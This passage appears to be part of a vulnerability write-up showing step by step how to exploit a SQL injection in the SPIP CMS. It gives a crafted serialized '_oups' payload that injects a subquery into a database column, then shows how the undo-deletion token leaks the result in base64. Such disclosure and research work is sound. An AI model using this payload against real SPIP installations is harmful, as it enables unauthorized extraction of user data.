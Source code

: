- Let's now send a POST request with malicious "_oups" parameter, as seen previously. Be sure to correctly change the "article" and "auteur" value with the one indicated in `ajouter_lien` (payload is base64 decoded for demonstration) :

`a:1:{i:0;a:4:{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"`**1**`";s:7:"article";s:1:"`**2**`";s:53:"vu=(SELECT nom FROM spip_auteurs WHERE id_auteur=1) #";s:0:"";}}`

- What we are doing here, is assigning the `vu` column the result of an arbitrary query. Here is the content of table "spip.spip_auteurs_liens" now :

![picture 5](images/c744d6199535b245cbef4830222d5cd5e8ecfc7fd5ec920a1c91198d6eb1bc0b.png)  

- The injection worked, but the field is limited to six characters. We will see that it's not really an issue later.
- Now, here is where the magic occurs. We will remove the "webmaster" user from the authors associated with our article (click on "Remove author"):
  
![picture 6](images/b6d954efef6990bc52d194ae2f192f38a66dae78da82594ab01a5de1b5afa181.png)  

- Intercept, send it to "Repeater", then **drop** it (not obligatory but it will be easier for the following)
- Go to the "Repeater" tab with the "remove author" request. Send it, and search in the response for this :

```html
<input type="hidden" name="_oups" value='YToxOntpOjA7YTo2OntzOjk6ImlkX2F1dGV1ciI7czoxOiIxIjtzOjg6ImlkX29iamV0IjtzOjE6IjIiO3M6NToib2JqZXQiO3M6NzoiYXJ0aWNsZSI7czoyOiJ2dSI7czo2OiJ3ZWJtYXMiO3M6NjoiYXV0ZXVyIjtzOjE6IjEiO3M6NzoiYXJ0aWNsZSI7czoxOiIyIjt9fQ==' />
```

- What happens here, is that SPIP gives us an "_oups" payload to cancel our author deletion if we want. The problem is that it provides the content of "spip.spip_auteurs_liens" for "id_auteur = 1 AND id_objet = 2" :

`YToxOntpOjA7YTo2OntzOjk6ImlkX2F1dGV1ciI7czoxOiIxIjtzOjg6ImlkX29iamV0IjtzOjE6IjIiO3M6NToib2JqZXQiO3M6NzoiYXJ0aWNsZSI7czoyOiJ2dSI7czo2OiJ3ZWJtYXMiO3M6NjoiYXV0ZXVyIjtzOjE6IjEiO3M6NzoiYXJ0aWNsZSI7czoxOiIyIjt9fQ==`

->

`a:1:{i:0;a:6:{s:9:"id_auteur";s:1:"1";s:8:"id_objet";s:1:"2";s:5:"objet";s:7:"article";s:2:"vu";s:6:"`**webmas**`";s:6:"auteur";s:1:"1";s:7:"article";s:1:"2";}}`
